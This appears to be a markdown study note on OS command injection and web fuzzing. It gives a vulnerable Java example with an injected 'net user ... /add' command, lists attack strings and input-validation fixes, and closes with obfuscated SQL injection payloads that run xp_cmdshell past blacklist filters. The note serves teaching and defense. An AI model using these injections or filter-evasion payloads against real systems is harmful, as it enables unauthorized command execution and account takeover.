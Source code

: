 # OS Command Injection


* Methodology:
	- Identify data entry points
	- Inject data (payloads)
	- Detect anomalies from the response.
	- Automate



* For example for snippet:

```
String cmd = new String("cmd.exe /K processReports.bat clientId=" + input.getValue("ClientId"));
Process proc = Runtime.getRuntime().exec(cmd);
```

For a client id equal **444**, we would have the following string:

```
cmd.exe /K processReports.bat clientId=444
```

However, an attacker could run use the client id equal **444 && net user hacked hackerd/add**. In this case, we have the following string:

```
cmd.exe /K processReports.bat clientId=444 && net user hacked hacked /add
```

## Examples of Injection Payloads:

* Control characters and common attack strings:
	- '-- SQL injection
	- && | OS Command Injection
	- <> XSS

* Long strings (AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA)

* Binary or Null data


## Fuzz Testing Web Applications

* Focus on the relevant attack surface of the web application.
* Typically HTTP request parameters:
	- QueryString
	- POST data
	- Cookies
	- Other HTTP headers (User-Agent, Referer)

* Other entry points with request structures:
	- XML web services
	- WCF, GWT, AMF
	- Remote Method Invocation (RMI)

* Fixing injection flaws:
	- Comprehensive, consistent server-side input validation
	- User Safe command APIs
	- Avoid concatenating strings passed to an interpreter
	- Use strong data types in favor of strings

### Whitelist input validation
- Input validated against known GOOD values.

- Exact match:
		* A specific list of exact values is defined
		* Difficult when large set of values is expected
- Pattern matching:
		* Values are matched against known good input patterns.
		* Data type, regular expressions, etc.

### Blacklist input validation

- Input validated against known BAD values.
- Not as effective as whitelist validation.
		* Susceptible to bypass via encoding
		* Global protection and therefore often not aware of context.
- Constantly changing given dynamic of application attacks.

#### Evading Blacklist filters

Exploit payloads:

```
';exec xp_cmdshell 'dir';--
```

```
‘;Declare @cmd as varchar(3000);Set @cmd =
 ‘x’+'p’+'_’+'c’+'m’+'d’+’s’+'h’+'e’+'l’+'l’+'/**/’+””+’d’+’i'+’r’+””;exec(@cmd);--
```
```
‘;ex/**/ec xp_cmds/**/hell ‘dir’;--
```

```
Declare @cmd as varchar(3000);Set @cmd
=(CHAR(101)+CHAR(120)+CHAR(101)+CHAR(99)+CHAR(32)+CHAR(109)+CHAR(97)+CHAR(115)+CHA
R(116)+CHAR(101)+CHAR(114)+CHAR(46)+CHAR(46)+CHAR(120)+CHAR(112)+CHAR(95)+CHAR(99)+
CHAR(109)+CHAR(100)+CHAR(115)+CHAR(104)+CHAR(101)+CHAR(108)+CHAR(108)+CHAR(32)+CH
AR(39)+CHAR(100)+CHAR(105)+CHAR(114)+CHAR(39)+CHAR(59));EXEC(@cmd);--
```

```
‘;Declare @cmd as varchar(3000);Set @cmd =
 convert(varchar(0),0×78705F636D647368656C6C202764697227);exec(@cmd);--
```